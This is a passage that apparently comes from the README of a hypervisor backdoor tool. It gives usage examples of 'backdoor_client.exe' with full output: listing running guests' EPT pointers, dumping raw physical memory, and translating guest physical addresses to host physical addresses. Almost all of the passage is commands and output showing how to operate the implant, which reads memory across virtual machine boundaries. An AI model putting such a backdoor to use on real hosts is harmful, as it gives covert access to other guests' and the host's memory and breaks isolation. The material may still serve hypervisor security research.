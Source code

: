 ```
...

```

Enumerate running guests:

```
> .\backdoor_client.exe 0 --ept-list
[+] Running on CPU #0
[+] Collecting EPT address list...
[+] Reading collected data from 0x2810...

  #00: VPID = 0x0001, EPT = 0x00000000145f101e
  #01: VPID = 0x0002, EPT = 0x00000000145e601e
  #02: VPID = 0x028d, EPT = 0x000000012800301e
  #03: VPID = 0x0001, EPT = 0x00000000145ed01e
```

Reading physical memory:

```
> .\backdoor_client.exe 0 --phys-read 0x2000 0x100
[+] Running on CPU #0
[+] Reading 0x100 bytes of physical memory at 0x2000
0000000000002000: eb 76 00 00 3f 00 10 20  00 00 00 00 00 00 00 00  | .v..?.. ........
0000000000002010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  | ................
0000000000002020: 00 00 00 00 00 9b 20 00  00 00 00 00 00 00 00 00  | ...... .........
0000000000002030: ff ff 00 00 00 93 cf 00  00 00 00 00 00 00 00 00  | ................
0000000000002040: ff ff 00 00 00 9b cf 00  00 00 00 00 00 00 00 00  | ................
0000000000002050: cb 20 00 00 30 00 fd 20  00 00 10 00 00 00 00 00  | . ..0.. ........
0000000000002060: 60 d5 8a 05 00 f8 ff ff  00 a0 7a 00 00 00 00 00  | `.........z.....
0000000000002070: 04 00 00 00 01 00 00 00  fa 66 2b c0 8c c8 8e d8  | .........f+.....
0000000000002080: 66 be 70 00 00 00 67 66  c7 06 01 00 00 00 66 c1  | f.p...gf......f.
0000000000002090: e0 04 66 8b f8 66 67 0f  01 15 04 00 00 00 0f 20  | ..f..fg........
00000000000020a0: c0 66 83 c8 11 0f 22 c0  67 f6 05 74 00 00 00 01  | .f....".g..t....
00000000000020b0: 74 0f 66 b9 a0 01 00 00  0f 32 66 0f ba f2 22 0f  | t.f......2f...".
00000000000020c0: 30 b8 20 00 8e d8 66 67  ff 6f 50 c7 47 70 02 00  | 0. ...fg.oP.Gp..
00000000000020d0: 00 00 0f 20 e0 83 c8 20  0f 22 e0 8b 47 68 0f 22  | ... ... ."..Gh."
00000000000020e0: d8 b9 80 00 00 c0 0f 32  0d 00 01 00 00 0f 30 0f  | .......2......0.
00000000000020f0: 20 c0 0d 00 00 00 80 0f  22 c0 ff 6f 56 8b ff 48  |  ......."..oV..H
```

Translating guest physical address to host physical address:

```
> .\backdoor_client.exe 0 --phys-translate 0x145f1000 0x1d4bf0000
[+] Running on CPU #0
backdoor_phys_translate(): EPT PML4 is at 0x145f1000, VA is 0x1d4bf0000
EPT PML4E 0x145f1000[0x0]: 0x145f9007
EPT PDPTE 0x145f9000[0x7]: 0x150bf007
  EPT PDE 0x150bf000[0xa5]: 0x1d4a000b7

0x00000001d4bf0000 -> 0x00000001d4bf0000
```
